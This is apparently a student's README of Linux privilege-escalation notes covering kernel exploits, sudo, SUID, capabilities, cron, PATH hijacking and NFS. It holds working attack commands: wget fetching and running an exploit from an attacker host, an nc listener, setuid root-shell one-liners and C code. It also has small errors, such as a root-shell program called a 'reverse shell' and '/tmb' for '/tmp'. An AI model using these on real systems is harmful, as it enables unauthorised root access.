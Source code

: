 # Linux-Privilege-Escalation
Privilege escalation depends on the target system's setup, including the kernel version, installed applications, and user credentials. There is no single method that works for all cases.
### Introduction

- Privilege escalation depends on the target system’s setup, including the kernel version, installed applications, and user credentials. There is no single method that works for all cases.

### What does "privilege escalation" mean?

- At it's core, Privilege Escalation usually involves going from a lower permission account to a higher permission one.

### Why is it important?

Privilege escalation means gaining higher permissions from a lower-level account.

- Resetting passwords
- Bypassing access controls to compromise protected data
- Editing software configurations
- Enabling persistence
- Changing the privilege of existing (or new) users
- Execute any administrative command

## Privilege Escalation: Kernel Exploits

- first you will know version the kernel from this command (  uname -r )
- when know the version will search about exploit to this by this command ( searchsploit linux kernel 4.15.0  )
- download the exploit by ( searchsploit -m exploit )
- compiler the exploit by (   gcc -o 37292 37292.c -static -D_GNU_SOURCE -pthread -lcap  )
- Transfer the Exploit to the Target System (  python3 -m http.server 8080  )
- Then, use `wget` on the target machine to download the exploit:  (   wget http://<your_ip>:8080/exploit_name.sh   )
- Run the exploit (     ./exploit_name.sh     )
- whoami

## Privilege Escalation: Sudo

- Sudo allows running programs as root. Admins can give specific commands (e.g., Nmap) high privileges to users without full root access, ensuring security while maintaining flexibility.

- Any user can check its current situation related to root privileges using the `sudo -l` command.
- https://gtfobins.github.io/ is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.
- when use sudo -l show the program run by root and search in https://gtfobins.github.io/  about the program

## Privilege Escalation: SUID

- Linux controls user access with permissions (read, write, execute). SUID runs a file as its owner, and SGID runs it with the group's permissions, giving extra access when needed.   (  search about file own s in permission )
- `find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set.
- when found file search about it in the https://gtfobins.github.io/
- ex : base64   `LFILE=file_to_read
./base64 "$LFILE" | base64 --decode`

## Privilege Escalation: Capabilities

- System administrators can use **Capabilities** to give specific privileges to a process or binary without granting full root access.  For example, if a SOC analyst needs to use a tool that requires opening network connections, a regular user cannot do it. without give the user full privileges, the admin can assign the required **Capability** to the tool. This allows the tool to work without needing root access.
- We can use the `getcap` tool to list enabled capabilities.  (   getcap -r / 2>/dev/null  )
- cd /home/ubuntu
- ./view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'   you must sure the version of python in the machine

## Privilege Escalation: Cron Jobs

- Cron Jobs are used to run scripts or executables at specific times and operate with the privileges of their owner. If there is a cron job running as root and we can modify the script it executes, our script will run with root privileges.
- Any user can read the file keeping system-wide cron jobs under /etc/crontab
- when found file , The file should look like this;
    
    ![2025-02-19 17_01_00-kali-linux-2024.3-vmware-amd64 - VMware Workstation.png](attachment:5eef8dab-0d48-452e-9719-17cad5a45ac5:2025-02-19_17_01_00-kali-linux-2024.3-vmware-amd64_-_VMware_Workstation.png)
    
- We will now run a listener on our attacking machine to receive the incoming connection. ( nc -nvlp 7777 )

## Privilege Escalation: PATH

- In Linux, the **PATH** variable tells the system where to look for programs when you run a command.
- If you run a command **without a full path**, Linux searches for it in the folders listed in **PATH**.
- If there is a **folder you can edit** inside **PATH**, you can place a fake program with the same name as a real one. When the system runs it, your script will execute instead of the real program.
    - echo $PATH
    - find / -perm -u=s -type f 2>/dev/null   to search about file contain SUID
    - add /tmp to $PATH is the path can i write in   add by (  export PATH=/tmp:$PATH )
    - add the file contain /bin/bash in the same name file in the system (  vim /tmb/thm   or    echo “/bin/bash” > thm    )
    - move the file to /tmb
    - run the file
    
    ## Privilege Escalation: NFS
    

- NFS (Network File Sharing) is a file sharing system between different devices in a network. and when use the ( cat /etc/exports )  and found no_root_squash  ( this vulnerability ) that’s main if i make any command in my machine will work in the victim machine as root
- mount -o rw 10.10.74.23:/tmp /mnt/11
    
    
    | `mount` | Linux command to attach a filesystem |
    | --- | --- |
    | `-o rw` | Mount the filesystem with **read & write** permissions |
    | `10.10.74.23:/tmp` | The NFS shared directory on the **remote machine** (`10.10.74.23`) |
    | `/mnt/11` | The **local mount point** where the remote directory will appear |
- now any thing happen in my machine will happen in victim
- now i will make a reverse shell by ( vim nfs )  ((((((((((((((((((((
    
    #include <unistd.h>  // For setuid() and setgid()
    #include <stdlib.h>  // For system()
    
    int main() {
    setuid(0);  // Set user ID to root
    setgid(0);  // Set group ID to root
    system("/bin/bash -p");  // Spawn a shell with preserved privileges
    return 0;
    }
    

))))))))))))))))))))))))))

- gcc -o nfs nfs.c -static -D_GNU_SOURCE -pthread -lcap
- ./nfs
